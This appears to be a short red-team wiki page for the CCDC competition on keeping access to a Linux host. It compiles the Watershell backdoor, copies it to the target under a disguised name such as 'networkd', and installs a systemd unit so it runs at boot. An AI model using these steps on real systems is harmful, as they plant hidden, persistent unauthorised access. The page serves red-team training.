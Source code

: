 ```yaml
---
description: Systemd Service Persistence using Watershell as an example.
---
```


# Systemd Service Persistence

[Watershell ](https://github.com/RITRedteam/watershell-cpp)is an incredible script that I came across from a fellow red teamer during CCDC. I highly recommend reading the [original GitHub](https://github.com/wumb0/watershell) to learn more about the tool and why I fell in love with it.&#x20;

General steps for persistence with Watershell:

1. Compile the binary: \
   \
   `g++ main.cpp watershell.cpp -o ${INSERT_BINARY_NAME}`\
   ``
   1. Note: You can edit the default port that the binary uses in the main.cpp and watershell.cpp files prior to compiling.\

2. Transfer the binary to the targets system, I recommend naming the binary something inconspicuous such as `networkd` or `ipv6_conf`\
   ``
3.  Setup a service to execute the binary, the following demonstrates an example configuration:\


    ```
    [Unit]
    Description=persistence

    [Service]
    Type=simple
    ExecStart=/bin/networkd

    [Install]
    WantedBy=multi-user.target
    ```
4. Connect to the target using `watershell-cli.py` using the following command:\
   `python3 watershell-cli.py -t [IP] -p [PORT]`

### References

* [Understanding Systemd Service Persistence](https://redcanary.com/blog/attck-t1501-understanding-systemd-service-persistence/)
